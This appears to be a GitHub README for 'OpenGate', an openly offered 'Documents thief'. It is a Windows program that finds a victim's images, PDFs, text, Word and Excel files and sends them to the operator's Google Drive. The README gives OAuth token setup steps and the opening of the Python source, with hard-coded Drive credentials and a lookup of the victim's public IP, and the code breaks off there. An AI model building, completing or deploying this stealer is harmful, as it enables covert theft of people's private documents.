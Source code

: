 # OpenGate
OpenGate "Documents thief" searching for images , pdf .text file , word  and Excel ,  extension and send to Google Drive
* for windows operating system compile to exe 
* user can use pyinstaller or py2exe 'for py2exe uset setup.py file
* have to anable api 'OAuth 2.0 Playground'
* 
### how to enable OAuth 2.0 Playground
* the idea of use oauth 2.0 playground is the file  will be large  file so can not send it by email so-
- the best options to use auth 2.0 playground google api 'Googel Drive' so can create file on the google drive 
- and store it in google drive 

 * [Google Ads API Auth Series - Web Flow with the OAuth Playground](https://www.youtube.com/watch?v=KFICa7Ngzng)
 * [Using OAuth 2.0 to Access Google APIs](https://developers.google.com/identity/protocols/oauth2)
 * gentrate the access Token copy and past it 
 ```python
 Token    = ""#add the access Token hare
 ```
 ### handel with ipa Token Expire 
with use access Token will get expire after 1 hour , the OpenGate will requsts new access Token Automaticly if the access Token expire fot that have to hared code client_id , client_sctrite , refrech Token ,
 
```python 
client_id     = ''#add the client_id  hare
client_secret = ''#add the client_secret hare
refresh_token = ''#add the refresh_token  hare
```
### Eplan
```python

#!/usr/bin/env python3

import os
import shutil
import base64
import json
import requests
import socket
import urllib.request

Token         = "ya29.a0ARrdaM9XO9KvfMzshrDlxJTO6HMCyy5EIaMNduS2gnPamRk1KgoTAj-KSE1zJ_bW3s0xbbK7vjoWYMy5ZRWbtfZbLF0flz4uX58GXqkbNFC3iBXeJ3meGIoILJwuA2dH-7s7yCpnTuBuBYsZOGbpt0J6USo"# add the Token hare
client_id     = '40656873737638192.apps.googleusercontent.com'#add the client_id  hare
client_secret = 'kPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr0'#add the client_secret hare
refresh_token = '//04_5VB6CflruWCgYIARAAGAQSNwF-L9IrkPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr00jwjjwjjwjjwjjj' # add refreh Token hare
try:
    public_ip  = urllib.request.urlopen('http://api.ipify.org').read().decode('utf8')
```
